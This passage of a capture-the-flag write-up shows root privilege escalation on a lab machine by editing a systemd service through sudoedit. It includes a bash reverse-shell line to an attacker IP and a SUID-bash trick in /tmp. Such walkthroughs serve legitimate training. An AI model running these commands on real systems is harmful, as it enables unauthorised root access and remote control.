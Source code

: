 We can modify the service using `sudoedit`, let's do it:

```
sudoedit /etc/systemd/system/duckyinc.service
```

Now, we can either modify the service to spawn a reverse shell or a shell directly:

```
ExecStart=/bin/bash -i >& /dev/tcp/10.14.21.28/9001 0>&1
```

Or:

```
ExecStart=/bin/bash /tmp/shell.sh
```

We need to modify the file in the following way:

```
[Unit]
Description=Gunicorn instance to serve DuckyInc Webapp
After=network.target

[Service]
User=root
Group=root
WorkingDirectory=/var/www/duckyinc
ExecStart=/bin/bash -i >& /dev/tcp/IP/9001 0>&1
ExecReload=/bin/kill -s HUP $MAINPID
ExecStop=/bin/kill -s TERM $MAINPID

[Install]
WantedBy=multi-user.target
```

If we follow the direct shell path, we need to create a file with the following contents:

```bash
cp /bin/bash /tmp/sh
chmod +s /tmp/sh
```

Now, let's restart the service:

```
sudo /bin/systemctl daemon-reload
sudo /bin/systemctl restart duckyinc.service
```

If we check `/tmp` directory:

![[Pasted image 20250609142735.png]]
As seen, we got the `sh` binary, let's run it to get a root shell:

![[Pasted image 20250609142853.png]]

Now, let's get second flag and root flag:
